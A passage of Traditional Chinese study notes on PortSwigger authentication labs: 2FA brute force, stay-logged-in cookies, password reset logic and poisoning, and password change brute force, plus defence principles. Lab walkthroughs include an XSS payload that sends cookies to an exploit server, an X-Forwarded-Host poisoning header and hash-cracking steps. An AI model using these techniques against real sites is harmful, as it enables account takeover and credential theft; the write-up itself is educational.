Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

如果攻擊者接著能夠暴力破解驗證碼，這將極其危險，因為這將允許他們完全基於使用者名稱登入任意使用者的帳戶。他們甚至不需要知道使用者的密碼。

::: tip Lab: [2FA broken logic](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic)

這個 Lab 要破解 4 位數 2FA 驗證碼，我需要好心人贊助 Pro。
:::

### 暴力破解 2FA 驗證碼

就像密碼一樣，網站需要採取措施防止 2FA 驗證碼遭到暴力破解。這特別重要，因為驗證碼通常只是簡單的 4 位數或 6 位數數字。如果沒有足夠的暴力破解防護，破解這種驗證碼是輕而易舉的。

有些網站試圖透過在使用者輸入一定數量的錯誤驗證碼時自動將其登出來防止這種情況。這在實務上是無效的，因為進階攻擊者甚至可以透過為 Burp Intruder 建立巨集來自動化這個多步驟過程。Turbo Intruder 擴充功能也可以用於此目的。

::: tip Lab: [2FA bypass using a brute-force attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)

Brute-force 2FA again. I need Burp Suite Pro.
:::

## 其他驗證機制中的漏洞

除了基本的登入功能外，大多數網站提供額外功能讓使用者管理其帳戶。例如，使用者通常可以變更密碼或在忘記密碼時重設密碼。這些機制也可能引入可被攻擊者利用的漏洞。

網站通常會小心避免在其登入頁面出現知名漏洞。但很容易忽略的是，您需要採取類似步驟來確保相關功能同樣強固。這在攻擊者能夠建立自己的帳戶，因而可以輕易存取並研究這些額外頁面的情況下特別重要。

### 保持使用者登入狀態

一個常見功能是即使在關閉瀏覽器工作階段後仍保持登入狀態的選項。這通常是一個簡單的核取方塊，標示為「記住我」或「保持我的登入狀態」之類。

這個功能通常透過產生某種「記住我」權杖來實作，然後將其儲存在持續性 Cookie 中。由於擁有這個 Cookie 實際上允許您繞過整個登入程序，因此最佳做法是讓這個 Cookie 難以猜測。然而，有些網站基於靜態值的可預測串聯（如使用者名稱和時間戳記）來產生此 Cookie。有些甚至使用密碼作為 Cookie 的一部分。如果攻擊者能夠建立自己的帳戶，這種方法特別危險，因為他們可以研究自己的 Cookie 並可能推斷出其產生方式。一旦他們找出公式，就可以嘗試暴力破解其他使用者的 Cookie 來取得對其帳戶的存取權限。

有些網站認為如果 Cookie 以某種方式加密，即使確實使用了靜態值，也不會被猜到。雖然如果正確執行可能確實如此，但使用簡單的雙向編碼（如 Base64）來天真地「加密」Cookie 完全不提供任何保護。即使使用帶有單向雜湊函數的適當加密也不是完全無懈可擊的。如果攻擊者能夠輕易識別雜湊演算法，且未使用鹽值，他們可能透過簡單地雜湊其字典檔來暴力破解 Cookie。如果對 Cookie 猜測沒有套用類似限制，這種方法可以用來繞過登入嘗試限制。

::: tip Lab: [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)

1. 使用 wiener 登入後如果選擇「Stay logged in」，在 Cookie 中會有一個 `stay-logged-in`，他是一個 base64 編碼，解碼後會是 `wiener:{一串 MD5 hash}`，該 hash 為密碼的 hash 值。
2. 接著觀察若存取 `/my-account`，並且 `stay-logged-in` 的驗證是正確的，會回應狀態碼 200，反之則為 302（記得把 Cookie 的 `session` 刪掉）。
3. 使用 Intruder 破解出 Payload 完成此 Lab，附上 Intruder 的設定截圖。
    
:::

即使攻擊者無法建立自己的帳戶，他們仍可能利用這個漏洞。使用常見技術（如 XSS），攻擊者可以竊取其他使用者的「記住我」Cookie，並從中推斷出 Cookie 的建構方式。如果網站是使用開源框架建構的，Cookie 建構的關鍵細節甚至可能有公開文件記錄。

在某些罕見情況下，即使密碼經過雜湊處理，也可能從 Cookie 中取得使用者的實際明文密碼。知名密碼清單的雜湊版本可以在網路上取得，因此如果使用者的密碼出現在這些清單中的其中一個，解密雜湊有時可能簡單到只需要將雜湊貼到搜尋引擎中。這證明了鹽值在有效加密中的重要性。

::: tip Lab: [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

1. 貼文留言的地方存在 XSS。
2. 留言以下 Payload 取得 carlos 的 Cookie
    ```http
    <script>document.location='https://your-exploit-id.exploit-server.net/'+document.cookie</script>
    ```
3. 前往 Access log 查看取得 carlos 的 Cookie：
    ```http
    secret=YjOFBT63CYQsOGg8OCJEo9vRKcYPbBtT;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
    ```
4. 將 `stay-logged-in` 的值經過 base64 decode 後取得 carlos 的密碼 Hash：`26323c16d5f4dabff3bb136f2460a943`
5. 經過 [Hash Crack](https://crackstation.net/) 後，取得 carlos 的密碼：`onceuponatime`
6. 使用 carlos 的帳號密碼登入並刪除帳號完成此 Lab。
:::

### 重設使用者密碼

實際上，有些使用者會忘記密碼，因此通常會有讓他們重設密碼的方式。由於在這種情況下顯然無法使用一般的密碼驗證，網站必須依賴替代方法來確保是真正的使用者在重設自己的密碼。基於這個原因，密碼重設功能本質上是危險的，需要安全地實作。

這個功能有幾種常見的實作方式，具有不同程度的漏洞。

#### 透過電子郵件發送密碼

不用說，如果網站一開始就安全地處理密碼，那麼向使用者發送其當前密碼應該永遠不可能。相反地，有些網站會產生新密碼並透過電子郵件將其發送給使用者。

一般來說，應該避免透過不安全管道發送持久性密碼。在這種情況下，安全性依賴於產生的密碼在非常短的時間後過期，或使用者立即再次變更密碼。否則，這種方法極容易受到中間人攻擊。

考量到收件匣既是持久性的，且並非真正設計用於機密資訊的安全儲存，電子郵件通常也不被認為是安全的。許多使用者還會透過不安全管道在多個裝置之間自動同步其收件匣。

#### 使用 URL 重設密碼

一個更強固的密碼重設方法是向使用者發送獨特的 URL，將他們帶到密碼重設頁面。這種方法較不安全的實作會使用帶有容易猜測參數的 URL 來識別正在重設的帳戶，例如：

```url
http://vulnerable-website.com/reset-password?user=victim-user
```

在這個例子中，攻擊者可以將 `user` 參數變更為他們已識別的任何使用者名稱。然後他們會直接被帶到一個可能為此任意使用者設定新密碼的頁面。

這個過程更好的實作是產生高熵、難以猜測的權杖，並基於該權杖建立重設 URL。在最佳情況下，此 URL 應該不提供任何關於正在重設哪個使用者密碼的提示。

```url
http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8
```

當使用者造訪此 URL 時，系統應該檢查此權杖是否存在於後端，如果是，它應該重設哪個使用者的密碼。這個權杖應該在短時間後過期，並在密碼重設後立即銷毀。

然而，有些網站在提交重設表單時也未能再次驗證權杖。在這種情況下，攻擊者可以簡單地從自己的帳戶造訪重設表單，刪除權杖，並利用這個頁面來重設任意使用者的密碼。

::: tip [Lab: Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)

1. 這是更新密碼的請求：
    ```http
    POST /forgot-password?temp-forgot-password-token=qxt1pa53szvrz2gzkf37ioz6wyuyzrbj HTTP/2
    Host: 0ae3002a035f4353a2811a98001b0002.web-security-academy.net
    Cookie: session=P37cBgRtNRbqpehR8Zltn9kngfqIkXEr
    Content-Length: 117
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "macOS"
    Accept-Language: en-US,en;q=0.9
    Origin: https://0ae3002a035f4353a2811a98001b0002.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0ae3002a035f4353a2811a98001b0002.web-security-academy.net/forgot-password?temp-forgot-password-token=qxt1pa53szvrz2gzkf37ioz6wyuyzrbj
    Accept-Encoding: gzip, deflate, br
    Priority: u=0, i

    temp-forgot-password-token=qxt1pa53szvrz2gzkf37ioz6wyuyzrbj&username=wiener&new-password-1=peter&new-password-2=peter
    ```
2. 嘗試將 `username` 更改為 `carlos` 並請求，就成功修改 `carlos` 的密碼了。
3. 使用帳號密碼 `carlos`/`peter` 登入完成此 Lab。
:::

如果重設電子郵件中的 URL 是動態產生的，這也可能容易受到密碼重設毒化攻擊。在這種情況下，攻擊者可能竊取其他使用者的權杖並用它來變更他們的密碼。

::: tip Lab: [Password reset poisoning via middleware](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)

1. 這是一個忘記密碼的請求：
    ```http
    POST /forgot-password HTTP/2
    Host: 0a4b00100365cd8d84b5a42400690075.web-security-academy.net
    Cookie: session=8dnBx3nVI2SWWE3ITK9Ry4hRB2AeDr2z
    Content-Length: 15
    Cache-Control: max-age=0
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "macOS"
    Accept-Language: en-US,en;q=0.9
    Origin: https://0a4b00100365cd8d84b5a42400690075.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a4b00100365cd8d84b5a42400690075.web-security-academy.net/forgot-password
    Accept-Encoding: gzip, deflate, br
    Priority: u=0, i

    username=wiener
    ```
2. 在其中加入 `X-Forwarded-Host` 的 Header，並將忘記密碼的使用者改成 `carlos`：
    ```http
    X-Forwarded-Host: exploit-0aa0009c0316cd8f845da3bb01a20045.exploit-server.net
    ```
3. 在 Access log 中看到包含 token 的請求
4. 存取 `https://your-lab-ID.web-security-academy.net/` + Access log 中的 URL 路徑、參數，即可修改 carlos 的密碼。
5. 修改密碼後登入 `carlos` 使用者完成此 Lab。
:::

::: info Read more

[Password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)
:::

### 變更使用者密碼

通常，變更密碼涉及輸入您目前的密碼，然後輸入兩次新密碼。這些頁面基本上依賴與一般登入頁面相同的程序來檢查使用者名稱和目前密碼是否相符。因此，這些頁面可能容易受到相同技術的攻擊。

如果密碼變更功能允許攻擊者在未以受害使用者身分登入的情況下直接存取，則可能特別危險。例如，如果使用者名稱是在隱藏欄位中提供，攻擊者可能能夠在請求中編輯此值來針對任意使用者。這可能被利用來列舉使用者名稱和暴力破解密碼。

::: tip [Lab: Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)

1. 觀察修改密碼的請求
    | Current password 是否正確 | New password 和 Confirm new password 是否匹配 | Response |
    | --- | --- | --- |
    | ✅ | ❌ | New passwords do not match |
    | ❌ | ❌ | Current password is incorrect |
    | ✅ | ✅ | 302 |
    | ❌ | ✅ | 302 |
2. 我們可以透過輸入不匹配的新密碼，在 Current password 欄位使用字典檔破解取得密碼。可透過回應長度或使用 Intruder 的 Grep - Extract 判斷回應（記得將 username 改成 `carlos`）。
3. 最後成功取得 carlos 的密碼為 `tigger`。使用取得的密碼登入使用者 carlos 完成此 Lab。
:::

## 第三方身分驗證機制的漏洞

如果你很喜歡破解身分驗證機制並且已經完成所有身分驗證的題目，你可能會像嘗試 OAuth 身分驗證的 Labs。

::: info Read more
[OAuth authentication](https://portswigger.net/web-security/oauth)
:::

## 防止對你自己的身分驗證機制的攻擊

我們已經展示了網站因實施身份驗證的方式而可能存在漏洞的幾種方式。為了降低你自己的網站遭受此類攻擊的風險，應該嘗試遵守幾項原則。

驗證是一個複雜的主題，正如我們所展示的，不幸的是弱點和缺陷很容易潛入其中。概述您可以採取的每一種可能措施來保護自己的網站顯然是不可能的。然而，有幾個一般原則是您應該始終遵循的。

### 謹慎處理使用者憑證

即使是最強固的驗證機制，如果您無意中向攻擊者洩露了一組有效的登入憑證，也會變得無效。不用說，您永遠不應該透過未加密的連線發送任何登入資料。雖然您可能已經為登入請求實作了 HTTPS，但請確保透過將任何嘗試的 HTTP 請求重新導向至 HTTPS 來強制執行此措施。

您還應該稽核您的網站，確保沒有使用者名稱或電子郵件位址透過公開存取的個人檔案或反映在 HTTP 回應中而被洩露。

### 不要依賴使用者來確保安全

嚴格的驗證措施通常需要使用者付出一些額外努力。人性使得某些使用者不可避免地會尋找方法來省去這些努力。因此，您需要盡可能強制執行安全行為。

最明顯的例子是實作有效的密碼原則。一些較傳統的原則會失敗，因為人們會將自己可預測的密碼硬塞進原則中。相反地，實作某種簡單的密碼檢查器可能更有效，它允許使用者試驗密碼並即時提供關於密碼強度的回饋。一個熱門的例子是由 Dropbox 開發的 JavaScript 程式庫 zxcvbn。透過只允許被密碼檢查器評為高分的密碼，您可以比使用傳統原則更有效地強制使用安全密碼。

### 防止使用者名稱列舉

如果您透露使用者存在於系統中，攻擊者就會更容易破解您的驗證機制。甚至在某些情況下，由於網站的性質，知道特定人員擁有帳戶本身就是敏感資訊。

無論嘗試的使用者名稱是否有效，使用相同的通用錯誤訊息都很重要，並確保它們真的相同。您應該始終為每個登入請求回傳相同的 HTTP 狀態碼，最後，讓不同情況下的回應時間盡可能無法區分。

### 實作強固的暴力破解防護

考量到建構暴力破解攻擊是多麼簡單，確保您採取步驟來防止或至少干擾任何暴力破解登入的嘗試是至關重要的。

較有效的方法之一是實作嚴格的、基於 IP 的使用者速率限制。這應該包括防止攻擊者操縱其表面 IP 位址的措施。理想情況下，在達到特定限制後，您應該要求使用者在每次登入嘗試時完成驗證碼測試。

請記住，這不能保證完全消除暴力破解的威脅。然而，讓過程盡可能繁瑣和需要手動操作，會增加任何潛在攻擊者放棄並尋找更容易目標的可能性。

### 三重檢查您的驗證邏輯

正如我們的實驗所展示的，簡單的邏輯缺陷很容易潛入程式碼中，在驗證的情況下，這有可能完全危害您的網站和使用者。徹底稽核任何驗證或確認邏輯以消除缺陷，是強固驗證的絕對關鍵。一個可以被繞過的檢查，最終並不比沒有檢查好多少。

### 不要忘記補充功能

務必不要只專注於核心登入頁面而忽略與驗證相關的額外功能。這在攻擊者可以自由註冊自己的帳戶並探索此功能的情況下特別重要。請記住，密碼重設或變更與主要登入機制一樣是有效的攻擊面，因此必須同樣強固。

### 實作適當的多重要素驗證

雖然多重要素驗證可能不適用於每個網站，但如果正確執行，它比僅基於密碼的登入要安全得多。請記住，驗證同一要素的多個實例並非真正的多重要素驗證。透過電子郵件發送驗證碼本質上只是更冗長的單一要素驗證形式。

基於 SMS 的 2FA 在技術上是驗證兩個要素（您知道的和您擁有的）。然而，透過 SIM 卡調換等方式被濫用的可能性意味著這個系統可能不可靠。

理想情況下，2FA 應該使用直接產生驗證碼的專用裝置或應用程式來實作。由於它們是專為提供安全性而設計的，這些通常更安全。

最後，就像主要驗證邏輯一樣，請確保您 2FA 檢查中的邏輯是健全的，這樣就不能輕易被繞過。